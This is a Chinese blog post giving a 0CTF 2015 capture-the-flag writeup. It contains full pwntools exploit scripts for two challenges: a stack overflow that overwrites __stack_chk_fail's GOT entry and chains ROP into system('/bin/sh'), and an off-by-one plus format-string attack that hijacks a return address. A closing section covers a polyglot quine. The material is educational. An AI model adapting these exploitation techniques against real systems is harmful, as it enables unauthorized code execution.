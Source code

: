 ```yaml
---
title: 0CTF writeup
author: rk700
layout: post
redirect_from: /writeup/2015/03/31/0ctf-writeup
tags:
  - exploit
  - misc
---
```


周末参加了今年的第二次CTF，0CTF。与BCTF类似，这次的溢出、逆向题目也是非常有水平的，令人大开眼界。下面是我的部分的writeup。

## flaggenerator

这道题的溢出还是比较明显的。在leetify时，一个`h`字符会被变成`1-1`三个字符，从而长度变长，造成栈溢出。但这道题有stack canary保护，如果我们栈溢出修改了返回地址，就会触发`__stack_chk_fail`。而读了一遍伪代码之后并没有发现可以泄露canary的地方，于是肯定会触发调用`__stack_chk_fail`了。

但是，在leetify的最后一步是`strcpy`，而目标`dest`是从栈上取的，源`src`是我们提供的flag（虽然有些字符被leetify了）。`dest`是我们可以覆盖到的，于是，如果我们把`strcpy`的目标地址改为GOT，造成修改`__stack_chk_fail@got`，那么就可以调用我们提供的函数了。

在调用`__stack_chk_fail@got`时，栈顶还是之前`strcpy`的参数。我用的是`leave; ret`，这样把`ebp`设为我们覆盖的一个地址，再跳回leetify的返回地址，那里也是被我们所覆盖的，进而ROP下去。pwntools里好像有写ROP的功能，我不太熟，还是手工构造的。具体地，先`put`打印GOT，获得库函数地址；然后调用程序里一个类似`readline`的函数，将`system`和字符串`/bin/sh`读到固定位置；最后`leave; ret`，执行`system("bin/sh")`。下面是代码：

{% highlight python %}
#!/usr/bin/env python2

from pwn import *
import sys 

if __name__ == '__main__' :
    context(arch='i386', os='linux')
    
    elf = ELF('flagen')

    #ip = "127.0.0.1"
    ip = sys.argv[1]
    conn = remote(ip, 5149)

    #len=9
    newGOT = [0x080484e6, 0x080484f6, 0x08048506, 0x08048516, 0x08048526, 0xf7e24570, 0x08048546, 0x08048556, 0x08048566]
    leave = 0x080485d8 
    newGOT[0] = leave #leave; ret
    newEbp = 0x0804b610
    newDest = 0x0804b01c #__stack_chk_fail@got
    popRet = 0x08048481 #pop ebx; ret
    newRet = popRet
    puts = 0x08048510 #puts@plt
    read = 0x0804b00c #read@got
    readLine = 0x080486cb
    count = 0x01010101
    sh = newEbp + 4*4 
    bsh = 0xf7f6a3a8

    #0x10c=4*9+77*3+1
    payload1 = "1\n" + "".join([p32(x) for x in newGOT]) + "h"*77 + "a" + p32(newEbp) + p32(popRet) + p32(newDest) + p32(puts) + p32(popRet) + p32(read) + p32(readLine) + p32(leave) + p32(newEbp) + p32(count) + "\n4\n"
    #total: 4*9+77+1+4*10=154

    conn.recvuntil("Your choice: ")
    conn.send(payload1)

    conn.recvuntil("Your choice: ")
    a1 = conn.recvn(4) 
    readAddr = unpack(a1)
    print(hex(readAddr))

    #system = 0xf7e46d70
    system = readAddr - 0x9aa40
    payload2 = p32(newEbp) + p32(system) + p32(popRet) + p32(sh) + "/bin//sh\n"
    conn.send(payload2)

    conn.interactive()
{% endhighlight %}

## login

这道题是PIE的，所以我调试下断点遇到了一点麻烦。最后我的方法是：在库函数`MD5`下断点，运行到那里后，`finish`回到原程序里，然后一步步走下去。

很明显，我们需要调用读flag文件的那个函数，为此我们需要成为normal user。再新login用户时的`scanf`有问题，这里它用的是`%256s`，这样如果输入256个字符，就会读256个，并添加一个`\x00`在最后。这样，就可以修改那里，成为normal user了。

然后，在隐藏的选项4里，存在format string attack，而且一共有两次。于是我们可以在第一次得到内存地址，然后第二次修改来跳到读flag的函数那里。具体地，通过大量打印内存，我们发现`printf`的第3个参数是栈上的某处，由此可以得到返回地址在栈上的地址；第75个参数是返回地址，由此我们可以得到`.text`的基地址，进而得到读flag的函数的地址。然后，在第二次`printf`时，我们修改返回地址为读flag，就可以在`printf`结束后获得flag了。

下面是代码：

{% highlight python %}
#!/usr/bin/env python2

from pwn import *
import sys 

if __name__ == '__main__' :
    context(arch='i386', os='linux')
    
    #ip = "127.0.0.1"
    ip = sys.argv[1]
    conn = remote(ip, 10910)

    payload = "guest\nguest123\n2\n" + "A"*256 + "4\n" + "%3$p,%75$p\n1234\n"

    conn.send(payload)

    conn.recvuntil("Password: ")
    conn.recvuntil("Password: ")
    addrs = (conn.recvline(keepends=False).split(" ")[0]).split(',')
    print addrs

    stack = int(addrs[0], 16) 
    base = int(addrs[1], 16)-0x12d3
    retAddr1 = stack - 0x8 
    retAddr2 = retAddr1+1
    print hex(retAddr1)
    print hex(base)

    high = (base & 0xff00) >> 8
    print hex(high)

    newHigh = high + 0x11
    part1 = "%8x%11$hhn"
    count = newHigh -8
    print "count 2 is %d" % count

    if count > 13 and count < 100:
        part2 = "aaa%%%dx%%12$hhn" % (count-3)
    elif count > 102:
        part2 = "aa%%%dx%%12$hhn" % (count-2)

    print len(part1)+len(part2)
    print part1+part2

    payload = part1+part2+p64(retAddr1)+p64(retAddr2) + "\n1234\n"

    conn.send(payload)
    conn.interactive()
{% endhighlight %}

## polyglot quine
其实两道题都是考察的它，只不过第一题只要求5种语言里的3种通过即可，第二题则要求5种语言全部通过。第一题我是直接搜索在[http://shinh.skr.jp/obf/](http://shinh.skr.jp/obf/)得到的，它已经满足c, python2, ruby和perl了。但python3还不满足，为此我研究了一下这段代码。

实验发现，python3之所以不满足，是因为python里的`print`会附加一个换行符在最后。为了解决这个问题，代码里用的是`print a%b,`，即在`print`之后添加一个逗号使得不打印换行符。但这只对python2有效，python3就不行了。

经过一番思考，我发现可以通过`rstrip()`去掉结尾的换行符，然后再`print`添加一个换行符，这样就做到了只有一个换行符了，而且这样对python2和python3都可以。下面就是我修改后可以通过5种语言的代码:

{% raw %}
<pre>
 #include/*
s='''*/<stdio.h>
main(){char*_;/*==;sub _:lvalue{$_}<<s;#';<<s#'''
def printf(a,*b):print((a%b).rstrip())
s
#*/
_=" #include/*%cs='''*/<stdio.h>%cmain(){char*_;/*==;sub _:lvalue{%c_}<<s;#';<<s#'''%cdef printf(a,*b):print((a%%b).rstrip())%cs%c#*/%c_=%c%s%c;printf(_,10,10,36,10,10,10,10,34,_,34,10,10,10,10);%c#/*%cs='''*/%c}//'''#==%c";printf(_,10,10,36,10,10,10,10,34,_,34,10,10,10,10);
#/*
s='''*/
}//'''#==
</pre>
{% endraw %}
